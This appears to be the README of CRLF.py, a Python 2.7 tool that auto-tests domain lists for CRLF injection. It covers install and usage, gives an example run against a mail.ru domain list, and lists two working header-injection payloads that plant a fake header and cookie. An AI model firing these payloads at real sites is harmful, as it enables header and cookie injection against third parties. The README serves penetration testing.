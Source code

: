 # CRLF.py
CRLF - Auto CRLF Injector

Author: [Rudra Sarkar](https://twitter.com/rudr4_sarkar)

Disclaimer: I am not responsible for any damage done using this tool. This tool should only be used for educational purposes and for penetration testing.

###Compatibility:
* Any platform using Python 2.7

###Requirements:
* Python 2.7
* Modules: requests

###Install Requests Modules:
`$ pip install requests`

###Usage:
$ python crlf.py

Use $ python crlf.py [domain_list.ext] [crlf_payload]

e.g $ python crlf.py mail.ru.list /%0aevil-here:malicious_cookie1

#Payloads:
### /%0aevil-here:malicious_cookie1
### /%0d%0aevil-here:malicious_cookie1

#Screenshot:
###Process:
![Process](https://raw.githubusercontent.com/rudr4sarkar/crlf-injector/Screenshots/process.png)

Regards!
[Rudra Sarkar](https://twitter.com/rudr4_sarkar)
